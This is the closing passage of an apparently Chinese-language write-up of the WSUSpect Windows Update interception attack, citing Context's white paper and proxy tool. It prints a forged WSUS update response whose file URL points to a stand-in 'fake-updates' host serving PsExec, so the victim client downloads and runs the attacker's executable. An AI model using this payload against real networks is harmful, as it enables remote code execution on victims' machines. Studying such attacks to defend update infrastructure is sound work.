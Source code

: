 ```
<ExtendedProperties DefaultPropertiesLanguage="en" MsrcSeverity="Important"
 IsBeta="false">
 <SupportUrl>http://support.microsoft.com</SupportUrl>
  <SecurityBulletinID>MS15-041</SecurityBulletinID>
 <KBArticleID>3037581</KBArticleID>
  </ExtendedProperties>
 </Xml>
 </Update>
 <Update>
<ID>17999990</ID>
  <Xml>
 <!-- This should be XML encoded inside the Xml tag -->
 <LocalizedProperties>
<Language>en</Language>
 <Title>anything-in-here</Title>
  </LocalizedProperties>
 </Update>
</Xml>
  <Update>
<ID>17999991</ID>
  <Xml>
 <!-- This should be XML encoded inside the Xml tag -->
 <LocalizedProperties>
<Language>en</Language>
 <Title>A fake update</Title>
 <Description>Will do bad things</Description>
 <UninstallNotes>...</UninstallNotes>
 <MoreInfoUrl>http://support.microsoft.com/kb/3037581</MoreInfoUrl>
  <SupportUrl>http://support.microsoft.com</SupportUrl>
   </LocalizedProperties>
 </Xml>
 </Update>
 </Updates>
 <FileLocations>
 <FileLocation>
<FileDigest>HO4/qEGb30y8JmRhJ34/3ZuT3iU=</FileDigest>
 <Url>**http://fake-updates/ClientWebService/psexec/BgInfo.exe**</Url>
  </FileLocation>
 </FileLocations>
</GetExtendedUpdateInfoResult></GetExtendedUpdateInfoResponse>

```

一旦client机收到这个响应，就会根据更新类型自动或提醒用户安装。比如在上例中，就能启动一个带参运行的Psexec。

0x05 Source
=====

*   [http://www.contextis.com/documents/161/CTX_WSUSpect_White_Paper.pdf](http://www.contextis.com/documents/161/CTX_WSUSpect_White_Paper.pdf)
*   pocket:[https://github.com/ctxis/wsuspect-proxy](https://github.com/ctxis/wsuspect-proxy)